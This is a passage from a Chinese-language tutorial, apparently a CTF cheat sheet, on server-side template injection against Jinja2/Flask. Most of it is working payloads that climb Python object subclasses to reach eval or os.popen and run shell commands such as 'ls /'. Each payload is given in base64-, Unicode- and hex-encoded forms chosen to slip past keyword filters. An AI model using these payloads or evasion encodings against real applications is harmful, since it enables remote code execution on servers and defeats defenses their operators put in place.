 ### 利用编码绕过

#### base64编码

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用base64编码绕过：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13等。这一切都是基于我们可以执行命令实现的。

#### 利用Unicode编码绕过关键字（flask适用）

我们可以利用unicode编码的方法，绕过关键字过滤，例如：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

可以看到，我们用eval时几乎所有命令都是再引号下的，我们这一手**几乎**可以通杀，几乎哈

#### 利用Hex编码绕过关键字

和上面那个一样，只不过将Unicode编码换成了Hex编码，适用于过滤了“u”的情况。

我们可以利用hex编码的方法，绕过关键字过滤，例如：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

